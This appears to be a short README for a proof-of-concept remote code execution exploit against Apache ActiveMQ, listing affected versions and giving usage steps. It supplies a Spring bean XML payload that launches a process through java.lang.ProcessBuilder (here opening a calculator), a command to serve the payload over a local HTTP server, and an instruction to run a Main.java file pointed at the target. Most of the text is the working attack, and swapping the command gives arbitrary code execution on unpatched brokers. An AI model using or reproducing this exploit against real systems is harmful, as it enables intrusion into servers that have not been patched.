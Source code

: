 # ActiveMQ RCE

## Effect version

- verison < 5.18.3
- version < 5.17.6
- version < 5.16.7
- version < 5.15.16

## Usage

Create a spring bean xml file

```xml
<?xml version="1.0" encoding="UTF-8" ?>
  <beans xmlns="http://www.springframework.org/schema/beans"
       xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
       xsi:schemaLocation="
     http://www.springframework.org/schema/beans
http://www.springframework.org/schema/beans/spring-beans.xsd">
    <bean id="pb" class="java.lang.ProcessBuilder" init-method="start">
      <constructor-arg >
        <list>
            <value>open</value>
            <value>-a</value>
            <value>calculator</value>
        </list>
      </constructor-arg>
    </bean>
  </beans>
```

Open a http server

```
python3 -m http.server
```

Run the Main.java file (change the address as needed).
